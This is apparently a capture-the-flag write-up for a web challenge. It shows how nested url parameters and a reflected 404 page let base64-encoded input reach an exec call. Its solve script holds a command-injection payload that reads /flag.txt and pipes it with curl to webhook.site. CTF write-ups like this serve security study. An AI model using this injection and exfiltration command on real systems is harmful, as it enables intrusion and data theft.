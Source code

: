 ```yaml
---
created: 2024-08-02T15:00
updated: 2024-08-05T19:36
solves: 87
points: 100
tags:
  - reflection
---
```


To inject content into `exec`, we have to make `localhost` output arbitrary content.

We can do that with 404.

`target?url=(localhost/payload)`
![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1722625383/2024/08/75a8802358f655bfa756b85929d323c2.png)

The payload would hence be something like this.
`target?url=(localhost?url=localhost/payload)`

Since the output goes through base64 decode, we also have to encode our payload.

However, with some debugging I found out that the html content itself after base64 decode, will produce a unclosed backtick, we need to close it ourselves.

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1722625635/2024/08/0ea78502d162e8923b24ebc7a6d359e3.png)

## solve script

```python
import base64
import requests
import urllib.parse

payload = "`;\ncat /flag.txt | curl https://webhook.site/ -X POST -d @-\n"
payload = base64.b64encode(payload.encode()).decode()
safe_string = urllib.parse.quote_plus("http://localhost/"+payload)
safe_string = urllib.parse.quote_plus("http://localhost/?url="+safe_string)
requests.get("http://challs.tfcctf.com:30795/?url="+safe_string)
```
